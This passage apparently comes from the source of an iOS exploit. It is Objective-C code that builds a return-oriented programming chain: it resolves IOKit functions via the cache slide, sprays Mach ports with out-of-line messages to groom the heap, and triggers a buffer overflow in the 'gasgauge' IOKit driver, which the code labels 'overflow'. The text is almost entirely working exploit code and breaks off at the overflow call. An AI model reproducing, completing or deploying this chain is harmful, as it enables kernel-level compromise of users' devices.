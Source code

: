     RopFixupLR(PUSH);
    RopCallFunction2(PUSH, @"___syscall", 294, SEG_VAR(cache_slide));
    RopCallFunction3(PUSH, @"_open", SEG_VAR(a), O_RDWR|O_CREAT|O_APPEND, 0666);
    StoreR0(PUSH, SEG_VAR(fd1));
    RopCallFunction3(PUSH, @"_open", SEG_VAR(b), O_RDWR|O_CREAT|O_TRUNC, 0666);
    StoreR0(PUSH, SEG_VAR(fd2));
    RopCallFunction3(PUSH, @"_open", SEG_VAR(c), O_RDWR|O_CREAT|O_TRUNC, 0666);
    StoreR0(PUSH, SEG_VAR(fd3));
    
    RopAddWriteDeref(PUSH, SEG_VAR(_IOServiceOpen), SEG_VAR(cache_slide));
    RopAddWriteDeref(PUSH, SEG_VAR(_IOServiceWaitQuiet), SEG_VAR(cache_slide));
    RopAddWriteDeref(PUSH, SEG_VAR(_IOServiceClose), SEG_VAR(cache_slide));
    RopAddWriteDeref(PUSH, SEG_VAR(_io_connect_method_scalarI_structureI), SEG_VAR(cache_slide));
    RopAddWriteDeref(PUSH, SEG_VAR(_io_service_get_matching_service), SEG_VAR(cache_slide));
    RopAddWriteDeref(PUSH, SEG_VAR(_host_get_io_master), SEG_VAR(cache_slide));

    RopCallFunction0(PUSH, @"_task_self_trap");
    StoreR0(PUSH, SEG_VAR(mach_task_self));
    
    RopCallFunction0(PUSH, @"_host_self_trap");
    StoreR0(PUSH, SEG_VAR(mach_host_self));
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_host_get_io_master), 0, SEG_VAR(mach_host_self), 4, SEG_VAR(zero), 0, SEG_VAR(master_port), 0, 0, 0, 0, 0, 0, 0,0);
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_io_service_get_matching_service), 0, SEG_VAR(master_port), 6, SEG_VAR(zero), 0, SEG_VAR(gasgauge_match), SEG_VAR(svc), 0, 0, 0, 0, 0, 0,0);
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_IOServiceOpen), 0, SEG_VAR(svc), 1, SEG_VAR(mach_task_self), 0, 0, 0, SEG_VAR(gasgauge), 0, 0, 0, 0, 0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
    for (int i = 3; i < 500; i++) {
        RopCallFunction9Deref2(PUSH, @"__kernelrpc_mach_port_allocate_trap", 0, SEG_VAR(mach_task_self), 5, SEG_VAR(zero), 0, MACH_PORT_RIGHT_RECEIVE, SEG_VAR(holder[i]), 0, 0, 0, 0, 0, 0);
        RopCallFunction9Deref3(PUSH, @"__kernelrpc_mach_port_insert_right_trap", 0, SEG_VAR(mach_task_self), 1, SEG_VAR(holder[i]), 2, SEG_VAR(holder[i]), 0, 0, 0, MACH_MSG_TYPE_MAKE_SEND, 0, 0, 0, 0, 0);
        LoadIntoR0(PUSH, SEG_VAR(holder[i]));
        StoreR0(PUSH, SEG_VAR(oolmsg_template.header.msgh_remote_port));
        RopCallFunction3(PUSH, @"_mach_msg_trap", SEG_VAR(oolmsg_template), MACH_SEND_MSG, sizeof(oolmsg_t));
    }
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref3(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 3, SEG_VAR(gasgauge), 2, SEG_VAR(master_port), 0, SEG_VAR(initmsg), 0, 0, 0, 0, 0, 0, 0);
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(cache_slide),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
    RopCallFunction9Deref1(PUSH, @"_mach_msg_trap", 4, SEG_VAR(holder[480]), SEG_VAR(cur_oolmsg), MACH_RCV_MSG, 0, sizeof(oolmsgrcv_t), 0, 0, 0,0,0); // + 1024
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_io_connect_method_scalarI_structureI),
                                        0, SEG_VAR(gasgauge),
                                        9, SEG_VAR(zero),
                                        0, 12,
                                        SEG_VAR(inputScalar), 1,
                                        SEG_VAR(structData), (1024+0x100),
                                        0,0,0,0); // overflow
    